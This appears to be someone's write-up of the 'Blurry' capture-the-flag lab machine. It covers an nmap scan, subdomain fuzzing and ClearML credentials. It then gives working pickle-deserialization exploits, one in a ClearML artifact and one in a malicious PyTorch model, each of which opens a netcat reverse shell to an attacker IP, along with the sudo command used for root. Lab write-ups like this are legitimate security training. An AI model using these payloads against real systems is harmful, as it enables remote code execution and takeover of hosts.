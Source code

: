 # Nmap
```sh
Nmap scan report for 10.10.11.19
Host is up (0.026s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# Sub-domain
```sh
curl -s -I http://10.10.11.19 -H "HOST: defnotvalid.blurry.htb" | grep "Content-Length"
Content-Length: 169
```
```sh
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.11.19 -H "Host: FUZZ.blurry.htb" -fs 169

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.19
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.blurry.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 169
________________________________________________

app                     [Status: 200, Size: 13327, Words: 382, Lines: 29, Duration: 55ms]
files                   [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 118ms]
chat                    [Status: 200, Size: 218733, Words: 12692, Lines: 449, Duration: 103ms]
```

# Installing clearml
```sh
pip install clearml

clearml-init

api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "122AZ9L8UPYECOGRZ96C"
    "secret_key" = "3hjvY2BKFzxBZTqyf1omX69ld7GX0gy9yYqYnExOrM7UvmstV1"
  }
}
```

Just manually do it
#### Step 2: Manually Create the Configuration File

If connectivity is verified, create the configuration file manually.

1. Create a configuration file `clearml.conf` in your home directory or the current working directory.

bash

Copy code

`nano ~/clearml.conf`

2. Add the following configuration details to the `clearml.conf` file:

ini

Copy code

`api {   web_server: http://app.blurry.htb   api_server: http://api.blurry.htb   files_server: http://files.blurry.htb   credentials {     "access_key" = "TU9CTAVM44JG25HEEGGF"     "secret_key" = "aBTZdo4YUhLVtmgQh6SaYeMQ6EpvQtyMs9MRzZM3E93mlny8To"   } }`

#### Step 3: Set Environment Variables

Set the environment variables to point to the configuration file.

bash

Copy code

`export CLEARML_CONFIG_FILE=~/clearml.conf`

## New exploit.py
```python
from clearml import Task
import pickle, os  # Make sure to import os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.25 4444 >/tmp/f',))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"])
task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")

```

## Reverse shell
```sh
python3 exploit.py
```

![[Pasted image 20240613095154.png]]

## SSH
```
└─$ ssh -i id_rsa jippity@10.10.11.19
Linux blurry 5.10.0-30-amd64 #1 SMP Debian 5.10.218-1 (2024-06-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jun 13 05:10:08 2024 from 10.10.14.25
-bash-5.1$ 

```

# Root

You can run models as sudo

```python
import torch  
import torch.nn as nn  
import os  
class CustomModel(nn.Module):  
def __init__(self):  
super(CustomModel, self).__init__()  
self.linear = nn.Linear(10, 1)  
  
def forward(self, x):  
return self.linear(x)  
  
def __reduce__(self):  
# Custom reduce method  
cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x 4444 >/tmp/f"  
return os.system, (cmd,)  
# Create an instance of the model  
model = CustomModel()  
# Save the model using torch.save  
torch.save(model, 'evil.pth')
```
```
after that run it with python3 --> python3 shell.py --> u will get evil.pth in the samy directory --> mv it to /models --> mv evil.pth /models/  
--------------------------------------------------------------------------------------------------------------------------------------------------------------  
after that in new terminal nc -nlvp 4444  
--------------------------------------------------------------------------------------------------------------------------------------------------------------  
sudo /usr/bin/evaluate_model /models/evil.pth --> pwned
```